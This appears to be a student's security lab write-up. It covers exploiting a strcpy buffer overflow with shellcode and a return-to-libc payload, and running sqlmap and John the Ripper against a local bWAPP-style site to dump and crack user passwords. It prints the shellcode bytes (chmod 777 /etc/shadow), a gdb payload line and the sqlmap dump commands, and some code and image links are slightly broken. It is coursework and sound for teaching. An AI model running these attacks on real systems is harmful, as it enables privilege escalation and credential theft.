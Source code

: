# TangTamNhu
# Lab #1, 20110431, Tang Tam Nhu, INSE3308E_03FIE
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
  
Description text (optional)
- We'll create 2 file `taskbuffer.c` and `shellcode.c` that contains 2 code content above
- Here is the stack frame `taskbuffer.c` program:
![stackframe](./img/image-1.png)

- Compile `taskbuffer.c` program and `shellcode.c` program to executable code.
      
![img0](./img/image-2.png)

- We will use Code Insert to insert shellcode directly into the program.
- We will create a payload that includes:
- First 16 bytes to fill the buffer.
- The shellcode address to override the program's return address.
- Use an older bash and turn off randomly given stack value.

![img1](./img/image-3.png)

- Create environmet variable `nhu` with `export`
  
![img2](./img/image-4.png)

- We need to find the address of `system`, `exit` and `nhu` variable and load `taskbuffer.out` into `gdb` and find them.
  - Address value of system: `0xf7e50db0` will be inserted with format `\xb0\x0d\xe5\xf7`
  - Address value of exit: `0xf7e449e0` will be inserted with format `\xe0\x49\xe4\f7`
  - Address value of the string of `nhu`: `0xffffde58` will be inserted with format `\x58\xde\xff\xff`
 
![img3](![image](https://github.com/user-attachments/assets/0c4794c8-dc5f-456a-8db9-3cc5889ffb57)
)

- Examine the stack frame. We need to add 20 bytes of padding, followed by the system address (4 bytes), exit (4 bytes), and preload (4 bytes). Thus, this is our directive:
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x58\xde\xff\xff')")
```
![img4]()


output screenshot (optional)

- Before
  
![img5]()

- After

![win]()


**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection, return-to-lib-c.

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**: 
- Use the command below to get database
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dbs --batch
```
![sql2](./img/image-5.png) 

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**: 
- Use the command below to get tables
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dbs --tables --batch

```
![sql3](./img/image-6.png)

- Use the command below to get users information and crack the password
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dump --batch
```
![sql4](./img/image-8.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
- We already dumpped and stored the hashed password to a file for further exploit.
- To identity the hash algorithm, we will use hashid which is a library in python (hashid -mj hash_pw.txt)
![alt text](./img/image-9.png)
- According to Hashid, john, notably the raw-sha1 format, can be used to crack the encryption: https://github.com/openwall/john/blob/bleeding-jumbo/doc/INSTALL-UBUNTU
```
    john --format=Raw-SHA1 hash_pw.txt
```
![alt text](./img/image-10.png)
